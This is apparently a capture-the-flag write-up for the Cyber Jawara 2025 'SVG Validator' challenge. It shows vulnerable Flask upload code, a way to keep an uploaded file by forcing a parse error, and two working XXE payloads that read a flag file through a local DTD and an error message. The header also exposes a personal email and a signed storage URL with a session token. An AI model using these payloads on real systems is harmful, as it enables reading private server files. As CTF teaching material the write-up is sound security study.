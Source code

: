 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466QHMWQHLN%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T100306Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEBoaCXVzLXdlc3QtMiJHMEUCIQCMQjHuuOSAaQ7f1Bqr07bFg3Hn409pTRamnfl3pbiS4wIgPp1UPvgG21gZvGRnIUXwck3QHjfNSmZUuaWz%2F%2BuFpSUqiAQI0%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDPeg%2F4%2FFHSGqVbBE9ircA1rR%2B%2BLRu14cwWt9ZQe%2FNi93vl7tAORmHzd9O54I740umjQN8%2FibdyhAQZHD3RdQmuvtbb3glIDPJKB7J49wLKqwGokRZoZ8X8YMJWaBLnDwrc0pVhSe23KQxk0fEg%2FG1YNzdh3S5exzCPZWDfs76ImQeHJY7FmbhOhhOTohb2IaesQ%2BGofChDh%2BEOzlNX4%2F1g%2BKbWuvIV1VL5EZlYN31BuE75TulSkVseC10pydTaEn%2FzUo0JZ5yzXGEY1RQakyfI1OidyLPxTfziCeN5Zy5A4Y4%2FqbJhH48NiXQvIN1dmdAvzmukCp%2B%2BFPC3bYEgmm%2F0wKJ10Ftkv0kedGn20ARJCyf38F2qamG5dKUGOj0H7ffOo%2BtWNLMmKlrq9M%2F9ykUIJ81ElwPzUKUTtomCmbGzzmGNxaguR0SxA%2FWvZH8JU1pNM8O73AYJ3zPt9B7xBn0CUOM4C%2FQcXJiOZiWb7hCkx0U5izjktmsa0f%2Fe%2FHaOoGThsy3e3E%2FTxQqOcifNNp6x3e8FCaRCTWck4avQHuRtB2sUF0tHLMPuCDR2JtqFffBatpxqEu0n%2FjPo48lSBjPTNwnGk0ESy%2BRtajU4YoLmNviemTE2gM2237JC7rF%2FJDnG2fOsa6lqcjIhM%2BMI%2Fdu8EGOqUBLxQiZLUSoNZvt3ETf%2FXWh%2FpROjWKYSqW5%2BQYvv0JiZDDFiWbN9b6q8NiET0%2FBq2HHMXIZ4USox%2BwqBkOsTrESuy5LkjC0Iwp0%2Be7zRNvOHGesN1ZeTByJQKVdjgXphQzWSXSyn33ugkUbPpRiKL%2FkIyf6lol1zPXEpfetIILWcTkVtLUsQ%2BHzPdQEhvxnyVedyyEG0BnRn0djjoxgX%2FfGbPsS2hB\&X-Amz-Signature=5ef0daf56f81f5868ecf25d98cb901a6b2a0200e2ff1c00ae8cee6773f27f4fa\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
